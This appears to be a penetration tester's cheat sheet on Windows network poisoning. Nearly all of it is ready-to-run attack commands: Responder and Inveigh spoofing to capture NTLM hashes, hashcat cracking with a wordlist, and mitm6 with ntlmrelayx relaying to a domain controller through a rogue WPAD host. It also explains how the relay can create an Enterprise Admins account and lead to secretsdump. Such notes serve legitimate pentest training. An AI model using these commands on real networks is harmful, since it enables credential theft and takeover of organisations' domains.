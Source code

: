 ### Responder 
Standard (let run in background)
```bash
sudo responder -I eth0 -dwf
```
Need NTLMv1 (**not opsec friendly**)
```bash
sudo responder -I eth0 -dFP
```
Locate hashes under `/usr/share/responder/logs` and  `/usr/share/responder/`
```bash
sqlitebrowser /usr/share/responder/Responder.db
```
Crack
```bash
hashcat -m 5600 adm.ntlmv2 ~/rockyou.txt
```

| Flag           | Description                                                                                                                                                                                                                                                                                                                     |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-A`           | Act as a fly on the wall and listen to the traffic                                                                                                                                                                                                                                                                              |
| `-w`           | Rogue WPAD server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has [Auto-detect settings](https://docs.microsoft.com/en-us/internet-explorer/ie11-deploy-guide/auto-detect-settings-for-ie11) enabled. |
| `-f`           | Fingerprint machine                                                                                                                                                                                                                                                                                                             |
| `-F`      `-P` | Force orce NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly                                                                                                                                                                                          |
| `-d`           | Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.                                                                                                                                                                                                                         |
### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth

Powershell based Inveigh - LLMNR and NBNS Spoofing
```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

C# Inveigh (InveighZero)
```powershell
.\Inveigh.exe
Press ESC to enter/exit interactive console
HELP
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```
The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled.

### IPv6 Attacks

```bash
sudo mitm6 -i eth0 -d PNPT.local
```

```bash
impacket-ntlmrelayx -6 -t ldaps://192.168.1.129 -wh evil.PNPT.local -l lootme
```

Typically machines on networks run on IPv4, sometimes not even utilizing IPv6 at all but still have it enabled by default. In a network there is usually **nobody** doing DNS for IPv6

We can leverage this by replying to all DHCPv6 messages, giving them a Link-Local address and telling them that we're their default DNS server.

**MITM6** paired with **Impacket-ntlmrelayx** using **LDAP relaying,** can allow us to pull a lot of information from the Domain Controller and even create a new user account in the Enterprise Admins group when a Domain Administrator logs into the network. This can allow us to run secretsdump against the Domain Controller.